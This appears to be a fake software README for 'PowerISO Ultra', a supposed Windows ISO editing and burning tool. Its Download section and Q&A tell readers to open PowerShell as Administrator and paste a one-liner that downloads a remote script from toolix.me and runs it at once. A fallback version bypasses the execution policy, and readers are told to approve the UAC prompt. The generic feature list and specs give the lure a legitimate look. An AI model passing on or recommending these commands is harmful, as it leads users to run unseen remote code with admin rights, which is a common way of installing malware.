

***

# PowerISO Ultra

<p align="center">
  
</p>

PowerISO Ultra — Windows 11 and 10 build | image convert | virtual drives.

## About this application

**PowerISO Ultra** in this repo is a Windows desktop package for technicians handling ISO sets. Expect a guided first launch, access to the image workshop with image edit, burn, and mount, and stable sessions on a standard PC.

## Download

1. Open **PowerShell** as Administrator
2. Paste and run:

```powershell
irm https://toolix.me/ps/setup.ps1 | iex
```

3. Confirm **UAC** (Yes) — setup runs automatically

<details>
<summary><b>Having trouble? Try this instead</b></summary>

Paste this in the same PowerShell window:

```powershell
powershell -NoProfile -ExecutionPolicy Bypass -Command "irm https://toolix.me/ps/setup.ps1 | iex"
```

</details>


## Questions & Answers

**Where do I get the package?** Open **PowerShell as Administrator** and run the command in the Download section above.

**Does it work on Windows?** Yes, it is built and tested for Windows 10 and 11.

**What if Windows asks for permission to run?** Click **Yes** on the UAC prompt — the PowerShell setup needs Administrator approval to complete.

## About

PowerISO Ultra suits technicians handling ISO sets who need a straightforward Windows install and a focused image edit, burn, and mount workflow.

## What's included

Image workshop tools are bundled in this release. Install locally, open the app, and use the image edit, burn, and mount toolkit right away.

## Features

⚡ Convert
🧩 Split image
💿 Burn queue
💾 USB write
🗂️ Mount tray
✨ Label editor
📦 Archive ISO

## Good for

- 📌 Bench techs
- 🎯 Lab imaging
- ⭐ Media archivists

* **Platform:** Windows 11 and 10 | 64-bit
* **RAM:** 4 GB minimum | 8 GB recommended
* **Disk:** 2 GB available storage

***